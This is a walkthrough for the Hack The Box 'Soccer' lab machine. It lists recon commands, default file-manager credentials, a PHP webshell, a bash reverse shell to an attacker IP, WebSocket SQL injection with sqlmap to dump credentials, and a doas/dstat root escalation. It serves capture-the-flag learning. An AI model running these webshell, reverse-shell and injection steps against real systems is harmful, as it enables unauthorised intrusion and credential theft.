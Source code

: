 ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)](Easy)

## 🔍 Recon

### Nmap
```bash
nmap -p- --min-rate 10000 10.10.11.194
```

```
nmap -p 22,80,9091 -sCV 10.10.11.194
```

### FFUF (vhost fuzzing)
```bash
ffuf -u http://10.10.11.194 -H "Host: FUZZ.soccer.htb" -w /opt/SecLists/Discovery/DNS/subdomains-top1million-20000.txt -mc all -ac
```

### [Feroxbuster](HTTP)
```bash
feroxbuster -u http://soccer.htb
```

---

## ⚙️ Initial Access (Tiny File Manager)

### Default creds
- `admin:admin@123`
- `user:12345`

### PHP Webshell
```php
<?php system($_REQUEST['cmd']); ?>
```

### Upload webshell to `/tiny/uploads/`
```bash
curl http://soccer.htb/tiny/uploads/cmd.php -d 'cmd=id'
```

### Reverse Shell
```bash
curl http://soccer.htb/tiny/uploads/cmd.php -d 'cmd=bash -c "bash -i >& /dev/tcp/10.10.14.6/443 0>&1"'
```

---

## 👤 Priv Esc to `player`

### Check `/etc/nginx/sites-enabled/soc-player.htb`

Update `/etc/hosts`:
```
10.10.11.194 soccer.htb soc-player.soccer.htb
```

### WebSocket SQLi Injection
Payload:
```json
{"id": "0 OR 1=1-- -"}
```

### Sqlmap Command (WebSocket)
```bash
sqlmap -u ws://soc-player.soccer.htb:9091 \
--data '{"id": "1234"}' \
--dbms mysql --batch --level 5 --risk 3 --threads 10
```

Dump credentials:
```bash
sqlmap -u ws://soc-player.soccer.htb:9091 \
--data '{"id": "1234"}' \
-D soccer_db -T accounts --dump --threads 10
```

### Login as Player
```bash
su player  # or SSH
# Password: PlayerOftheMatch2022
```

---

## 🔓 Priv Esc to root

### doas Privilege Escalation
```bash
# Check allowed commands
doas -l

# Write plugin
echo -e 'import os\nos.system("/bin/bash")' > /usr/local/share/dstat/dstat_0xdf.py

# Trigger plugin
doas /usr/bin/dstat --0xdf
```